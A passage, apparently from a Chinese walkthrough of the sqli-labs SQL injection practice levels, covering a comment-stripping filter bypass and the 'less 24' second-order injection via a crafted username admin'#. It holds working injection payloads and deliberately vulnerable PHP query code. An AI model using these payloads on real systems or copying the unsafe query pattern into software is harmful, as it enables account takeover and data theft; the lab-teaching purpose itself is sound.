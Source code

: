加了替换,将#和--注释符给替换掉了

```PHP
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
```

这里直接给出payload:`0' union select 1,2,3 and '1'='1`   可以自己手动闭合后面的单引号

# less 24

### 二次注入:

开发者信任数据库中取出的数据是无害的，当我们引用数据库里的数据时,造成了二次注入

这里我们创建了用户admin'#，然后在修改密码后,却把admin的密码给修改了

源码:

```php
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```



![image-20210118154733732](sqlilabs/image-20210118154733732-1611282459433.png)

